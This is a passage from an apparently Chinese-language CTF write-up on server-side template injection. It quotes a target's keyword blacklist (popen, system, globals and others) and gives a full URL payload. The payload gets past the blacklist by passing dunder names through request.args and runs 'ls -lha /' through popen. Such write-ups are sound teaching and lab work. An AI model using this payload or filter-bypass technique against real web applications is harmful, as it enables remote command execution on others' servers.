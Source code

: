 
去掉name变量，让网页报错


![alt text](assets/20240615-writeup/image-2.png)

查看报错函数，发现有过滤

`if not re.findall(r"'|_|\lx|[lu|{{|\+|attr|\.|class|init|globals|popen|system|env|exec|flag",name):`

![alt text](assets/20240615-writeup/image-3.png)

但是该函数只过滤了name变量中的敏感字，所以可以使用request方法，将带有下划线的敏感词传入，例如_class_

对于`.`的过滤，使用中括号形式替代

尝试执行ls：

```
/greetings?name={%print(""[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()[133][request["args"]["d"]][request["args"]["e"]][request["args"]["f"]](request["args"]["aa"])[request["args"]["g"]]())%}&a=__class__&b=__bases__&c=__subclasses__&d=__init__&e=__globals__&f=popen&g=read&aa=ls -lha /

```
成功，证明可行

![alt text](assets/20240615-writeup/image-8.png)
